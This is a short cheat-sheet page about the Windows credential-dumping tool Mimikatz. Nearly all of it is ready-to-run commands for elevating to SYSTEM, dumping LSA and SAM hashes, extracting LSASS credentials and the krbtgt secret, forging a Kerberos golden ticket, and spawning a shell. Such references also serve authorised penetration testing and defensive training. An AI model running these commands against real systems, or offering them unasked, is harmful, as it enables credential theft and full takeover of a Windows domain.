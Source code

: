 ```yaml
---
title: Mimikatz
description: Mimikatz is a password dumping tool for Windows. It also manages Kerberos tickets. Kiwi is the updated version of Mimikatz.
tags:
    - Privilege Escalation
    - Windows
refs:
date: 2022-11-20
draft: false
---
```


You can download it from the [GitHub repository](https://github.com/gentilkiwi/mimikatz).

## Usage

```txt
mimikatz
```

- **Check if Mimikatz Running as an Administrator**

    ```txt
    mimikatz # privilege::debug
    ```

- **Elevate to SYSTEM Level**

    ```txt
    mimikatz # token::elevate
    ```

- **Dump Hashes**

    ```txt
    mimikatz # lsadump::lsa /patch
    ```

    - **Security Identifier of the Kerberos Ticket Granting Ticket Account**

        ```txt
        mimikatz # lsadump::lsa /inject /name:krbtgt
        ```

    - **All SAM Local Password Hashes**

        ```txt
        mimikatz # lsadump::sam
        ```

    - **Credentials from the LSASS Memory**

        ```txt
        mimikatz # sekurlsa::logonpasswords
        ```

- **Create a Kerberos Golden Ticket**

    ```txt
    mimikatz # kerberos::golden /user:Administrator /domain:sample.domain /sid
    :S-1-5-21-849420856-2351964222-986696166 /krbtgt:7808900312cc005cf7082a9a89eb
    dfdf /id:500
    ```

6. **Open a New Command Prompt**

    ```txt
    mimikatz # misc::cmd
    ```
